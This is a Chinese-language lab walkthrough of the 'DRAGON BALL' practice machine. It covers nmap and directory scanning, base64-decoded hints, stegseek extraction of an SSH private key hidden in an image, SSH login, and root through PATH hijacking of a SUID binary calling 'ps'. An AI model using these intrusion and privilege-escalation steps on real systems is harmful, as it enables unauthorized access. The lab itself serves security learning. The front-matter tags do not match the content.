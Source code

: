 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

###主机发现

```shell
192.168.30.133
```

###信息收集

```shell
└─$ nmap -sV -A 192.168.30.133
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-22 03:26 EST
Nmap scan report for 192.168.30.133
Host is up (0.0013s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 b5:77:4c:88:d7:27:54:1c:56:1d:48:d9:a4:1e:28:91 (RSA)
|   256 c6:a8:c8:9e:ed:0d:67:1f:ae:ad:6b:d5:dd:f1:57:a1 (ECDSA)
|_  256 fa:a9:b0:e3:06:2b:92:63:ba:11:2f:94:d6:31:90:b2 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: DRAGON BALL | Aj's
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.56 seconds
```

查看80端口

![image-20240222162800682](C:\Users\qianenzhao\AppData\Roaming\Typora\typora-user-images\image-20240222162800682.png)

浏览发现没有明显信息，同步目录爆破

```shell
PS C:\Users\qianenzhao> dirsearch.exe -u 192.168.30.133:80

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: C:\Users\qianenzhao\reports\_192.168.30.133_80\_24-02-22_16-23-32.txt

Target: http://192.168.30.133/

[16:23:32] Starting:
[16:23:33] 403 -  279B  - /.ht_wsr.txt
[16:23:33] 403 -  279B  - /.htaccess.bak1
[16:23:33] 403 -  279B  - /.htaccess.sample
[16:23:33] 403 -  279B  - /.htaccess_extra
[16:23:33] 403 -  279B  - /.htaccess.save
[16:23:33] 403 -  279B  - /.htaccess_orig
[16:23:33] 403 -  279B  - /.htaccess_sc
[16:23:33] 403 -  279B  - /.htaccessBAK
[16:23:33] 403 -  279B  - /.htaccessOLD2
[16:23:33] 403 -  279B  - /.htaccess.orig
[16:23:33] 403 -  279B  - /.htaccessOLD
[16:23:33] 403 -  279B  - /.htm
[16:23:33] 403 -  279B  - /.html
[16:23:33] 403 -  279B  - /.htpasswd_test
[16:23:33] 403 -  279B  - /.httr-oauth
[16:23:33] 403 -  279B  - /.htpasswds
[16:23:34] 403 -  279B  - /.php
[16:23:57] 200 -   33B  - /robots.txt
[16:23:57] 403 -  279B  - /server-status/
[16:23:57] 403 -  279B  - /server-status

Task Completed
```

发现存在robots.txt页面

访问得到如下字符`eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=`

解密得到`you find the hidden dir`

目录爆破无果，审计网站代码

![image-20240222163252652](C:\Users\qianenzhao\AppData\Roaming\Typora\typora-user-images\image-20240222163252652.png)

查找子域名无果，但是发现在末尾注释中存在这样一段字符```VWtaS1FsSXdPVTlKUlVwQ1ZFVjNQUT09```

经过三次`base64`解密得到字符串`DRAGON BALL`

利用这个字符串尝试访问网站目录

![image-20240222163457164](C:\Users\qianenzhao\AppData\Roaming\Typora\typora-user-images\image-20240222163457164.png)

![image-20240222163544001](C:\Users\qianenzhao\AppData\Roaming\Typora\typora-user-images\image-20240222163544001.png)

> secret.txt页面

![image-20240222164314069](C:\Users\qianenzhao\AppData\Roaming\Typora\typora-user-images\image-20240222164314069.png)

无法通过`submit`交互，也无法直接跳转，但是查看源代码可知这个链接打开的图片与先前发现的图片名字一致，尝试下载先前那张图片寻找突破

![image-20240222164859400](C:\Users\qianenzhao\AppData\Roaming\Typora\typora-user-images\image-20240222164859400.png)

常规`binwalk`等尝试无果，尝试使用工具进行爆破

```shell
┌──(kali㉿kali)-[~]
└─$ sudo stegseek ./Desktop/aj.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "love"
[i] Original filename: "id_rsa".
[i] Extracting to "aj.jpg.out".
```

得到密码，原文件名，打开发现是`ssh密钥`

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ cat aj.jpg.out
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...略...
cYmthvUYneQMnt2czKF3XqEvXVPXmnbu9xt079Qu/xTYe+yHZAW5j7gzinVmrQEsvmdejq
9PpqvWzsLFnkXYEMWdKmmHqrauHOcH0hJtEmHuNxR6Zd+XjiRsPuBGxNRE22L/+j++7wxg
uSetwrzhgq3D+2QsZEbjhO+ViDtazKZVjewBCxm7O0NhPFFcfnwTOCDLg+U8Wd1uuVT1lB
Bd8180GtBAAaGtiwAAAAlrYWxpQGthbGk=
-----END OPENSSH PRIVATE KEY-----
```

该机器`ssh`端口已经暴露，尝试利用密钥`ssh`登陆，缺少用户名

回头看发现在登陆页面上有一个疑似用户名的关键词

![image-20240222180928831](C:\Users\qianenzhao\AppData\Roaming\Typora\typora-user-images\image-20240222180928831.png)

搜索发现`xmen`指的是X战警，很有可能就是用户名

###获得立足点

![image-20240222181031980](C:\Users\qianenzhao\AppData\Roaming\Typora\typora-user-images\image-20240222181031980.png)

😘成功得到立足点~

ps这里有个小细节,在利用密钥进行ssh登陆时,会对密钥文件有一个检测,如果该文件开放权限过高会拒绝我们的使用,如下:

![image-20240222181148990](C:\Users\qianenzhao\AppData\Roaming\Typora\typora-user-images\image-20240222181148990.png)

解决办法就是更改该文件的权限:`chmod 600 filename`

### 提权

利用`find`命令查找`suid`提权

```shell
xmen@debian:~$ find / -perm -u=s -type f 2>/dev/null
/home/xmen/script/shell
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
```

存在一个`shell`看上去就很可疑

```shell
xmen@debian:~/script$ ls
demo.c  shell
```

```c
xmen@debian:~/script$ cat demo.c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("ps");
}
```

甚至直接给出了源码,思路很清晰了,劫持环境变量提权

```shell
xmen@debian:~$ echo '/bin/sh' > /tmp/ps
xmen@debian:~$ chmod 777 /tmp/ps
xmen@debian:~$ export PATH=/tmp:$PATH
xmen@debian:~$ ./script/shell
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(xmen)
```

```shell
# cd /root
# ls
proof.txt
# cat proof.txt
   _____ __________
  /     \\______   \          ___  ___ _____   ____   ____
 /  \ /  \|       _/          \  \/  //     \_/ __ \ /    \
/    Y    \    |   \           >    <|  Y Y  \  ___/|   |  \
\____|__  /____|_  /__________/__/\_ \__|_|  /\___  >___|  /
        \/       \/_____/_____/     \/     \/     \/     \/

join channel:   https://t.me/joinchat/St01KnXzcGeWMKSC

your flag: 031f7d2d89b9dd2da3396a0d7b7fb3e2
```

👌拿下

last:看到《红队笔记》新一期讲解这个靶机来试试，个人感觉这台靶机就像是`ctf`做题的靶机，没有什么特别的难点疑点，了解常用路数加上`ctf`的一些知识`（misc）`轻松可以拿下haha，话是这么讲但是还是被图片隐写卡住了。



